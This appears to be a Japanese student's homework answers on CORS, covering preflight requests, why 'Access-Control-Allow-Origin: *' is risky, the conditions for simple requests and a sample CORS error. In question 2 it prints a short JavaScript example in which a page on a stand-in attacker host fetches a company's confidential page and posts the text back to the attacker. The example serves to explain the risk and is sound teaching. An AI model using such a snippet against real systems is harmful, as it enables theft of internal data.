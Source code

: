 # 課題6

## 問題１

Wev APIを利用したアプリケーションではよく、フロントエンドとバックエンドが別々のオリジンで配信される。
しかし、画面生成元のオリジンとリクエスト先のオリジンが異なる場合、同一オリジンポリシーによりレスポンスを処理することができない。
外部サイトからの不適切なAPIの利用を防ぐには都合がよいが、異なるオリジンにある正規サイトから利用する際には不都合が生じる。
そこで、正規のサイトのオリジンを許可することで制限を限定的に解除できる仕組みが「CORS（Cross-Origin Resource Sharing: オリジン間リソース共有）」と言う。  

異なるオリジンのAPIサーバーに対してリクエストを送信するとき、ブラウザはOriginリクエストヘッダーに現在のオリジンを付与する。
APIサーバーはOriginリクエストヘッダーを確認することで、どのオリジンからのリクエストか把握することができ、そのオリジンからのアクセスを許可する場合は、Access-Control-Allow-Originレスポンスヘッダーに許可するOriginを付与して返す。
レスポンスを受信したブラウザは、Access-Control-Allow-Originレスポンスヘッダーを確認し、アクセスが許可されているオリジンであれば、レスポンスを処理する。  

さきほど、APIサーバーはOriginリクエストヘッダーを確認すると述べたが、サーバー側は確認するために異なるオリジンであれ、リクエストを受け取っている。
つまり、サーバー側でリクエストに対する処理が行われることを意味する。
例えば、APIサーバーにDELETEリクエストを送信したとする。
もし、APIサーバーがCORSに対応しておらず、Originリクエストヘッダーを制限する実装になっていなかったら、このDELETEリクエストを受け入れ削除を実行してしまう。
ただし、CORSに対応していないためレスポンスにAccess-Control-Allow-Originレスポンスヘッダーは無い。
すると、ブラウザはレスポンスを確認してCORS違反と判断しエラーにするが、サーバー側での削除処理は実行されてしまう。
そのため、サービスに重大な影響を及ぼす恐れのある操作は、Access-Control-Allow-Originレスポンスヘッダーを確認したブラウザが処理を実行する前に、リクエストそのものを止めなければならない。
これを解決するために、今から送ろうとしているCORSリクエストをAPIサーバーが許可しているのか確認するために、Preflight Requestが考案された。  

Preflight Requestはサーバーに事前確認を行うために、ブラウザによって自動で送信される。
例えば、DELETEのリクエストを送信しようとすると、ブラウザは次のようなPreflight Requestのリクエストを送信する。

```
OPTIONS /resource/foo
Access-Control-Request-Method: DELETE
Access-Control-Request-Headers: origin, x-requested-with
Origin: https://foo.bar.org
```

[参考](https://developer.mozilla.org/ja/docs/Glossary/Preflight_request)  

ブラウザは、OPTIONSメソッドでAccess-Control-Request-Methodリクエストヘッダーにこれから送信するメソッドを付与し、リクエストを送信する。
サーバーが許可している場合は、次のようなPreflight Requestへのレスポンスを返す。

```
HTTP/1.1 204 No Content
Connection: keep-alive
Access-Control-Allow-Origin: https://foo.bar.org
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE
Access-Control-Max-Age: 86400
```

[参考](https://developer.mozilla.org/ja/docs/Glossary/Preflight_request)

そして、サーバーはAccess-Control-Allow-Methodsレスポンスヘッダーに許可しているメソッドをブラウザに伝える。
受け取ったブラウザは、「このサーバーはCORSに対応しており、このOriginからのDELETEを許可している」と判断し、実際のリクエストを送信する。
これにより、CORSが許可されていない場合でも、実際のDELETEリクエストを送らず、サービスに意図しない影響が発生するのを防ぐことができる。

一方で、Preflight Requestが不要なリクエストをSimple Requestと呼ぶ。
Simple Requestについては後述する。

## 問題2

Access-Control-Allow-Origin: * は、すべてのオリジンからのリクエストを許可する。
これは、攻撃者に重要な情報が盗まれる可能性がある。  
例えば、 https://company.example は、外部に漏れてはいけない社外秘の情報があり、社内ネットワークに接続した社員のみアクセスできるとする。
また、社員は社内ネットワークだけはなく、社外ネットワーク（インターネット）にもアクセスすることができる。  
攻撃者は、その社外秘の情報を盗むために、Webサイト https://attack.example を用意し、社員がアクセスするように何らかの方法で誘導する。
社員がこの悪意あるサイトにアクセスすると、攻撃者に仕込まれていた次のようなJavaScriptにより、社外秘の情報が盗まれてしまう。

``` JavaScript
// Attackから社外秘の情報を取得する
const res  = await fetch("https://company.example")
const text = await res.text()

// その情報をAttackに転送する
await fetch("https://attack.example", {
  method: "post",
  body:   text
})
```

このような攻撃が成立しないようにするために、Access-Control-Allow-Originには、信頼できるオリジンを設定した方が良い。

## 問題3

- 仕様で定義された[CORS-Safelisted Method](https://fetch.spec.whatwg.org/#cors-safelisted-method)および[CORS-Safelisted Request Header](https://fetch.spec.whatwg.org/#cors-safelisted-request-header)を満たしていること。

- Content-Typeヘッダーでは以下の値のみが使用されていること。
  - application/x-www-form-urlencoded
  - multipart/form-data
  - text/plain
- リクエストに使用されるどのXMLHttpRequestUploadにもイベントリスナーが登録されていないこと。
- リクエストに ReadableStream オブジェクトが使用されていないこと。  
[参考](https://developer.mozilla.org/ja/docs/Web/HTTP/CORS#simple_requests)

## 問題4

CORS エラーが発生し、ブラウザによりレスポンスがブロックされる。

```
Access to fetch at 'http://localhost:8080/' from origin 'https://a3a6a06d6fa0.ngrok.io' has been blocked by CORS policy: The 'Access-Control-Allow-Origin' header has a value 'http://localhost:3000' that is not equal to the supplied origin. Have the server send the header with a valid value, or, if an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.
```

## 問題5

XMLHttpRequestを使ってクロスオリジンリクエストを発行する際、デフォルトの挙動だとリクエストにクッキーが含まれません。クッキー情報を含むためには、何をする必要があるでしょうか？

## クイズ1
